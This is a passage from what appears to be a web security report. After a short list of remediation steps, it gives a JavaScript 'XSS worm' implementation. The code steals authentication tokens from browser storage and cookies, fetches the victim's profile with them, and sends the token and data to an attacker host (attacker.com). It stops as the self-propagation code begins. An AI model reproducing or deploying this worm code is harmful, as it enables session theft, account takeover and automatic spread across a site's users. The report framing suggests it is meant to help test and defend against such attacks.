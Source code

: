 ### Long-term Actions (Medium Priority)
- Regular penetration testing
- Security awareness training
- Implement security monitoring and alerting
- Regular security audits
- Establish incident response procedures

## Advanced XSS Attack Scenarios

### Scenario 1: Multi-Vector XSS Worm

**Objective**: Create self-propagating XSS that spreads across user accounts

```javascript
// Advanced XSS Worm Implementation
class XSSWorm {
    constructor() {
        this.payload = this.generatePayload();
        this.targets = [];
        this.infected = new Set();
    }
    
    generatePayload() {
        return `
        <script>
        (function() {
            // Worm configuration
            const WORM_ID = 'xss_worm_v2';
            const API_BASE = window.location.origin + '/api';
            
            // Prevent re-infection
            if (window[WORM_ID]) return;
            window[WORM_ID] = true;
            
            // Steal authentication token
            const token = localStorage.getItem('token') || 
                         sessionStorage.getItem('token') ||
                         document.cookie.match(/token=([^;]+)/)?.[1];
            
            if (!token) return;
            
            // Exfiltrate user data
            fetch(API_BASE + '/users/profile', {
                headers: { 'Authorization': 'Bearer ' + token }
            })
            .then(r => r.json())
            .then(userData => {
                // Send stolen data to attacker server
                fetch('https://attacker.com/collect', {
                    method: 'POST',
                    body: JSON.stringify({
                        type: 'user_data',
                        token: token,
                        data: userData,
                        url: window.location.href,
                        timestamp: Date.now()
                    })
                });
            });
            
            // Propagate worm to other users
            const propagateWorm = () => {
                // Get user's tasks to find collaboration opportunities
```